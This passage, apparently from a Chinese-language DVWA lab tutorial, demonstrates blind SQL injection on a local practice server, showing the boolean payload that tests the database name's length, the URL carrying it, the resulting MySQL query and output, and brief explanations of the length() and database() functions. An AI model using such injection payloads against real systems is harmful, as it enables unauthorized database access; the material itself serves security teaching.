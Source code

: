 ```
ID: 1' and length(database())=6 and '1'='1
First name: admin
Surname: admin
```

url解码后

```
http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1' and length(database())=6 and '1'='1&Submit=确定
```
mysql中的查询结果

```
mysql> SELECT first_name, last_name FROM users WHERE user_id = '1' and length(database())=6 and '1'='1';
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

mysql>
```



###length()函数

mysql获取字符串长度函数

length:是计算字段的长度一个汉字是算三个字符,一个数字或字母算一个字符

```
mysql> select user from users where length(user)=5;
+-------+
| user  |
+-------+
| admin |
| pablo |
+-------+
2 rows in set (0.00 sec)

mysql>
```

###database()函数

显示当前数据库

```
mysql> select database();
+------------+
| database() |
+------------+
| dvwacn     |
+------------+
1 row in set (0.00 sec)

mysql> 
```

